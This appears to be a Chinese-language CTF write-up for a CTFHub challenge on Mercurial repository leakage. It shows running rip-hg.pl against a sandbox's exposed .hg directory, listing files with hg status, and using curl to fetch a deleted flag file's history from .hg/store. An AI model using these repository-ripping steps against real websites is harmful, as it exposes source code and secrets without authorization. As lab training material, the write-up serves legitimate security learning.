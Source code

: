 # CTFHUB_.hhg

## 题目内容

```
信息泄露 - Mercurial

Flag 在服务端旧版本的源代码中, 不太好使的情况下, 试着手工解决。
```

## WriteUp
目录扫描发现存在.hg文件，我们使用rip-hg.pl来获取

```
./rip-hg.pl http://challenge-9de604a14dea467f.sandbox.ctfhub.com:10800/.hg 
[i] Getting correct 404 responses
cannot find hg: No such file or directory at ./rip-hg.pl line 140.
```

虽然这么提示，但是我发现.hg文件还是下来了，工具确实不靠谱

我们切换到.hg目录下，使用hg status查看

```
M index.html
! 50x.html
! flag_1438018392.txt
? .gitignore
? .svn/entries
? .svn/format
? .svn/pristine/bf/bf45c36a4dfb73378247a6311eac4f80f48fcb92.svn-base
? .svn/pristine/da/da1d09efc67182e5de16cce1b7bd22cfe7ee0ee9.svn-base
? .svn/wc.db
? .svn/wc.db-journal
? LICENSE
? README.md
? hg-decode.pl
? rip-bzr.pl
? rip-cvs.pl
? rip-git.pl
? rip-hg.pl
? rip-svn.pl
```

拿到flag文件名





服务端删掉了flag.txt也可以通过历史文件获取flag

```
.hg/store/data/flag__1438018392.txt.i
```

使用curl请求

```
curl http://challenge-9de604a14dea467f.sandbox.ctfhub.com:10800/.hg/store/data/flag__1438018392.txt.i
```

## Reference

https://www.wolai.com/ctfhub/sjCVy36wVjJALBR9rHw2JK

